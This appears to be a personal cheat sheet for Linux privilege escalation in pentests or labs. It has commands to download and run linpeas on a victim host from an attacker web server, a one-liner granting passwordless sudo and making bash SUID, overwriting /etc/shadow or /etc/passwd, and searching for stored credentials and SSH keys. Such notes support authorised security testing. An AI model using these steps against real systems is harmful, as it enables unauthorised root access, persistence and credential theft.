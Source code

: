 ## Intro
Use Linpeas if possible

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Alternative enumeration script: https://github.com/diego-treitos/linux-smart-enumeration/tree/master

On the attacker host:
```
# determine IP address of Kali
ip a

# create python webserver in the directory where linpeass are located
python -m http.server 8080
```
From the victim host
```

#Either of the below
wget http://<KALI IP>:8080/linpeas.sh
curl --output linpeas.sh http://<KALI IP>:8080/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```
## Quick privesc
If you can execute as root, below is a simple onliner to get permanent privesc
```
# Add any other user to sudoers
echo '<username> ALL=(ALL) NOPASSWD:ALL' >> /mnt/root/etc/sudoers

# make bash SUID
chmod u+s /bin/bash
```

## Basic
Check if you can become root without password
```
su root
```

Check what priviliges you have (what can be run as sudo without password)

Compare with the list here: https://gtfobins.github.io/#+sudo

Also check which environment variables are inherited (look for the env_keep options)
```
sudo -l
```
## Processes
Look for anything out of the ordinary
```
ps -ef
```
## Groups
List user groups (permissions)
```
id
# OR
groups
```
Look for anything outside of standard user groups.
To get more info about specific group use
```
# get group basic info
grep <groupname> /etc/group

# To see everything a group owns:
find / -group <groupname> 2>/dev/null
```

## Interesting binaries
If there is any interesting binary (e.g suid or sudo) check ot how to exploit it here:\
https://gtfobins.github.io/

## passwd and shadow

Check if you can read/write /etc/shadow.
- Can Write -> replace root password
- Can Read -> crack the passwords
```
ls -l /etc/shadow

# Generate new password hash to overwrite /etc/shadow
mkpasswd -m sha-512 test
```

Check if you can write to /etc/passwd
- Can write -> add root password directly here
```
ls -l /etc/passwd

# Generate new password hash to overwrite /etc/passwd
openssl passwd test
```

## Crontab
Check what is executed in cron
- edit the .sh files if possible
  - maybe they include wildcards (*) that can be abused? 
- replace executable files\
- check location of the PATH variable, can you do search order hijacking?
```
cat /etc/crontab
```

## SUID file
Executables that are executed in the context of root user.
Find all SUID files and look for the weird ones (e.g. in the user dir)

List of all commonly exploited SUID binaries: https://gtfobins.github.io/#+suid
```
find / -type f -perm -u=s 2>/dev/null
# or
find / -user root -perm -4000 -print 2>/dev/null
```
## history, Passwords & keys
Maybe password is available in any log or config file?
```
# User history
history
cat ~/.*history

# SSH config files (must be readable)
find / -name ".ssh" 2>/dev/null
```

## Services & listening ports
```
# show the port
ss -tln

#show the name
ss -tl
```

## Find exploits
https://www.exploit-db.com/
- Exploits for SUID executables

https://github.com/jondonas/linux-exploit-suggester-2
- Exploits for the Linux itself

## Additional materials
https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
